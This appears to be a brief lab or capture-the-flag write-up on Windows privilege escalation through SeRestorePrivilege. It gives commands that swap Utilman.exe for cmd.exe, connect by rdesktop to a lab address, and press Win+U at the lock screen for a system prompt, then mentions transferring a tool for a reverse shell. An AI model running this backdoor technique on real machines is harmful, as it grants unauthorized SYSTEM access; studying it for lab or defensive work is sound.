

# SeRestorePrivilege

<figure><figcaption></figcaption></figure>


Now using this page: [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)

&#x20;


```
ren "C:/Windows/System32/Utilman.exe"  Utilman.old
```

```
ren "C:/Windows/SYstem32/cmd.exe" Utilman.exe
```

Now we can get to the lockscreen with rdesktop:

```
rdesktop 192.168.180.254
```

<figure><figcaption></figcaption></figure>

Now press `win + U`&#x20;

<figure><figcaption></figcaption></figure>

We can transfer rcat and execute to get a proper shell:

<figure><figcaption></figcaption></figure>
